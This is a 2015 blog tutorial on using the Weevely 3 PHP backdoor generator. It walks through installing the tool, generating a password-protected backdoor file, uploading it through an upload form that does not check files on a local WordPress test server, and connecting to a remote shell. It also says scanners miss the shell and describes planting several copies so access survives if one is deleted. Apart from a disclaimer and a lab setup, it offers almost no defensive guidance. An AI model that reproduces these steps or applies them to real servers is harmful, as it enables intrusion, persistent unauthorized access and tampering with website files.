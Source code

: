 ```yaml
---
author: Mansoor A
date: "2015-03-17T09:05:00Z"
description: ""
draft: false
title: Weevely 3 - The Tiny Yet Dangerous PHP Shell
url: blog/weevely-3-tiny-yet-dangerous-php-she
---
```



> DISCLAIMER: Whatever discussed here is for educational purposes and to protect yourselves from such attacks. I'm in no way responsible for whatever damage you cause to anyone or anything by following the things discussed here.


### Weevely?

Weevely is a php backdoor generator. One of the cool thing ( or should I say troubling thing - from a sysadmin's perspective ) about it is that, it is not detected by most of the malware scanners ( To be honest, I scanned such a shell using virus total, and none of them detected it as a malware )

This is a good thing for a cracker and it is a troubling thing for  a Sysadmin.

#### How does crackers use this backdoor to maintain access?

Here is the thing, you can use this shell to maintain access to an already hacked website, or you can use this to hack a website ( if it provides an option to upload files without checking what exactly is being uploaded ).

The crackers finds a way to upload a shell to your server and then BAM!. They have access to all your files. OR, a cracker hacks your site somehow ( bruteforce, social engineering, or whatever) and upload theses shells to various parts of your website, so that even if you found one of these shell and delete it, they can access your server using another one.


### How about a practical example?
Here, I will show you how it is done. Please note that I am doing this in a locally set up web server, but the principle is same for all the web servers. Also, please do this only on the sites you own, or in those you are allowed to perform such actions.


### The Setup

1. I have an Ubuntu server running on this IP: 192.168.1.102
2. There is WordPress installation, and also an upload form where you can upload files
3. I'm using Backbox Linux as the attacking machine. You can use any Linux machines for this purpose. Kali, Backtrack, Ubuntu, Mint or whatever it is that you're using.

#### Step 1: Installing Weevely 3 on your machine:
```shell
# Make sure that the python package manager and yaml libraries are installed
$ sudo apt-get install g++ python-pip libyaml-dev python-dev
# Install requirements
$ sudo pip install prettytable Mako pyaml dateutils --upgrade
```

Now, download  weevely 3 from <a href="https://github.com/epinna/weevely3/archive/master.zip" target="_blank">HERE</a><br /> You can find more information about Weevely 3 from the github page: <a href="https://github.com/epinna/weevely3" target="_blank">HERE</a>


We are all set. Now, unzip the package and open the terminal and change directory to the weevely3 directory.
If you are too lazy to do all that, copy and paste the following command in your terminal.


```shell
wget https://github.com/epinna/weevely3/archive/master.zip
unzip master.zip
cd weevely3-master
```



#### Step 2: Creating the backdoor
If you do an "ls" command inside the weevely directory, you could see all the files, and weevely.py is the python script that we will be executing

This is how you create a backdoor:


```shell
# This will show you all the options you got
$ ./weevely.py

# The following command will generate a backdoor 
$ ./weevely.py generate password backdoor.php

# The above command will create a backdoor named "backdoor.php" with a password "password"
```


Now we have our backdoor. The next step is to upload it to the web server.


#### Step 3: Getting things done - Uploading to the server

For this to work, you need a place where you can upload any files ( since you are testing it in your own workstation, that shouldn't be  a problem. 😉 )

{{< img src="php_uploader.jpeg" alt="php uploader" caption="<em>Php uploader</em>" class="border-0" >}}

Here, check it out. I have an upload form and I have uploaded the generated backdoor ( shell.php ) to the server using this upload form.

#### Step 4: Accessing the shell

Now we have a backdoor in a server. We need to access it right?

```shell
# This is how you access the uploaded shell
$ ./weevely http://the-website.tld/path/to/the/backdoor.php password

# of course you will have to replace the path with the actual path to the uploaded shell,
# and you have to provide the password you previously set when created the shell.

# So, In my example, I will access the shell using the following command

$ ./weevely http://192.168.1.102/wordpress/hackme/shell.php noob

# where "noob" is my password and 192.168.1.102/wordpress/hackme/shell.php is the
# location of the shell in the server.
```


As soon as you issue the above command, you will get access to a shell in the server.


{{< img src="shell.jpeg" alt="Shell" caption="<em>Shell</em>" class="border-0" >}}


Type any command like "ls" and you can see that you are using the shell in the server. But, hey, remember one thing, you got a shell in the server, but you are not root ( yet ). You don't have administrative privileges, but you can manipulate the contents in the document root of apache, which is pretty nice.

{{< img src="shell_1.jpeg" alt="Shell" caption="<em>shell</em>" class="border-0" >}}

So, this is it. Hope you guys enjoyed this post. Keep one thing in mind, please don't do any of these on anything that you do not own. Thank you.!

